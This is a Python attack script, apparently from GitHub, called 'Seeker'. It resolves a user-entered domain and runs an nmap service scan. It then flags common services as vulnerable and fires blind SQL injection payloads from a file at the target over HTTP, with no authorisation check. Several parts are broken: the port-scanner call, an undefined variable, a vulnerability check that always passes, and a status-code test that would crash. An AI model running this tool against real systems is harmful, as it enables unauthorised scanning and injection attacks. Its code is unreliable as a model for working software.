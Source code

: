 #!/usr/bin/python3
import mechanize
import socket
import os
import optparse
import sys
import subprocess as sub
import time
import platform
import requests
from colorama import Fore
wi="\033[1;37m" #>>White#
rd="\033[1;31m" #>Red   #
gr="\033[1;32m" #>Green #
yl="\033[1;33m" #>Yellow#
st = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
def first_slow_print(s):
    for c in s + '\n' :
        sys.stdout.write(c)
        sys.stdout.flush()
        time.sleep(10. / 100)
def dependencies_print(s):
    for c in s + '\n' : 
        sys.stdout.write(c)
        sys.stdout.flush()
        time.sleep(10. / 100)
try:
 dependencies_print(wi + yl  + '[!]' + wi + 'Checking Dependencies...')
 check_pip = os.path.exists('/usr/bin/pip')
 if  check_pip == False:
   dependencies_print(wi + rd + '[-]'+ wi + 'pip not installed')
   dependencies_print(wi + gr + '[+]' + wi + 'Installing pip...') 
   os.system('sudo apt update -y')
   os.system('sudo apt install python3-pip -y ') 
 else:
   dependencies_print(wi + gr + '[+]' + wi + 'No missing dependencies')
except ImportError:
 print('error')
def banner():
  first_slow_print(wi + '''
▒▒▒▒▒▒▐███████▌
▒▒▒▒▒▒▐░▀░▀░▀░▌
▒▒▒▒▒▒▐▄▄▄▄▄▄▄▌
▄▀▀▀█▒▐░▀▀▄▀▀░▌▒█▀▀▀▄
▌▌▌▌▐▒▄▌░▄▄▄░▐▄▒▌▐▐▐▐
''')
  print(wi + gr + '[+]' + wi +'Seeker By FonderElite')
  print(wi + gr + '[+]' + wi + 'Github:https://github.com/FonderElite')
banner()

def banner(ip, port):
    ports = [80,443,21,22]
    s = socket.socket()
    s.connect((ip, int(port)))
    s.settimeout(1.5)
    print(s.recv(1024))
    
def portScanner(host):
 try:
    for i in range(1024):
     connect = st.connect(host,i)
     print("port" + i + "is open")
 except:
        return False
def main():
 while True:
    try:
       domain = input(wi + yl + "[!]" + wi + "Please Enter Domain Name: " + wi)
       param = '-n' if platform.system().lower()=='linux' else '-c'
       ping_param = '-n' if platform.system() == 'linux' else 'C'.lower()
       ip = socket.gethostbyname(domain)
       command = ['ping', '-c', '1', domain]
       check = print(wi + yl + "[!]" + wi + "Checking if host is up...")
       time.sleep(0.5)
       #live = sub.call(command)
       if bool(ip) == True or request == "<Response [200]>":
           print(wi + gr + '[+]' + wi + "Host Is Up")
           print('Ip: ' + ip)
           first_slow_print(wi + yl + "[!]" + wi + "Scanning Open Ports...")
           sub.call(['nmap','-sV','-sC',ip,'-oN','scan.txt'])
           check_file = os.path.exists("scan.txt")
           if check_file == True:
            first_slow_print(wi + gr + "[+]" + wi + "File is saved as scan.txt")
            save = open("scan.txt","r")
            vp = ['ftp','ssh','telnet','netbios-ssn','dns','pop3','windows-rpc','mysql','http','https','smtp','msrpc']
            if vp[0] or vp[1] or vp[2] or vp[3] or vp[4] or vp[5] or vp[6] or vp[7] or vp[8] or vp[9] or vp[10] or vp[11] in save:
             first_slow_print(wi + gr + "[+]" + wi + "Vulnerable Port(s) found!")
            else: 
             first_slow_print(wi + rd + "[-]" + wi + "No Vulnerable Ports are present!")
           else: 
            first_slow_print(wi + rd + "[-]" + wi + "File scan.txt Not Found Error")
           #sub.call(['nc ','-l',ip,port])
           try:
            first_slow_print(wi + yl + '[!]' + wi  + 'Testing Blind Sql Injection on the target')
            url = "http://" + ip
            try:
             sqlw = input(wi + Fore.CYAN + "#" + wi + 'SQLi_Payload location: ')
            except FileNotFoundError:
             first_slow_print(wi + rd + "[-]" + wi + "Error, File Not Found.")
            openw = open(sqlw,'r')
            for i in openw:
             i = i.strip()
             print(wi + yl + "[!]" + wi + "Trying Payload=> " + i)
             blindsql = requests.post(url + "/" + i)
             code = blindsql.status_code
             if 200 in code:
              print(blindsql)
             else:
              pass
           except TypeError:
            print(wi + rd + '[-]' + wi + "Error Occured.")
       else:
          print(wi +  rd + '[-]' + wi + "Host is down or blocking the tool's probes")
    except TypeError:
         print("Error Command")

    #print(ip)
    #print(wi + gr + '[+]' + wi + 'Banner Grabbing... + str(ip)')
    #port = input("Port: ")
    #

main()
